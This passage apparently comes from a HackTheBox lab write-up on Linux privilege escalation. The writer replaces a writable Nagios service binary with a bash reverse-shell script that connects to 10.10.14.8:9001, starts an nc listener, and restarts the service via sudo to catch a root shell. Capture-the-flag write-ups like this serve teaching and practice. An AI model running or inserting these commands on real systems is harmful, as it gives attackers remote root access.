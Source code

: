 Determine that nagios binary is owned by us 
```
stat /usr/local/nagios/bin/nagios
```

![[HackTheBox/Linux/attachments/Pasted image 20250506210424.png]]

We can replace the `/usr/local/nagios/bin/nagios` service binary 

Rename the `nagios` binary to `nagios~`

```
mv nagios nagios~
```

![[HackTheBox/Linux/attachments/Pasted image 20250506210713.png]]

Create a new file called `nagios` and paste in reverse shell

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```

![[HackTheBox/Linux/attachments/Pasted image 20250506210835.png]]

Make it executable
```
chmod +x nagios
```

Set up nc listener 

```
nc -lvnp 9001
```

Run the script really quick to make sure there isn't a typo 

```
./nagios
```

![[HackTheBox/Linux/attachments/Pasted image 20250506211027.png]]

Restart the nagios service with sudo permissions

![[HackTheBox/Linux/attachments/Pasted image 20250506211213.png]]

Catch the shell as root again :)

![[HackTheBox/Linux/attachments/Pasted image 20250506211235.png]]
